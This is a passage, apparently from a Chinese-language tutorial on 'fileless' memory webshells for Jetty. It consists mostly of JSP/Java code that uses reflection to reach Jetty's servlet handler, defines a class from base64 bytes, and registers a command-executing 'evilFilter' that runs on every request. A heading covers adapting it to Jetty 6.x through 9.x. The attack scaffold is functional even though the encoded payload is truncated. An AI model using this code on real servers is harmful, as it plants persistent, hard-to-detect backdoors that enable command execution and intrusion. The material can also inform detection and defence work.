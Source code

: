 ```java
            filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
            servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
            out.write("<br>" + evilFilter.getName() + " Inject Successfully!");
        }

    }catch (Exception e){
        e.printStackTrace();
    }
%>

```

测试效果

![image-20211219024758925](fileless-shell.assets/image-20211219024758925.png)


#### 适配Jetty v6.x/7.x/8.x/9.x

- 使用Jetty封装好的方法addFilterWithMapping实现动态添加Filter、代码简洁。

```jsp
<%
    try{
        ClassLoader webAppClassLoader= Thread.currentThread().getContextClassLoader();
        java.lang.reflect.Field _context = webAppClassLoader.getClass().getDeclaredField("_context");
        _context.setAccessible(true);
        Object webAppContext = _context.get(webAppClassLoader);
        java.lang.reflect.Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
        _servletHandler.setAccessible(true);
        Object servletHandler = _servletHandler.get(webAppContext);
        ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
        Class evilFilter;
        try{
            evilFilter = contextClassLoader.loadClass("com.example.jetty.filter.FilterCmd");
        }catch(ClassNotFoundException e){
            sun.misc.BASE64Decoder base64Decoder = new sun.misc.BASE64Decoder();
            byte[] bytes = base64Decoder.decodeBuffer("yv66vg...");
            java.lang.reflect.Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
        }
```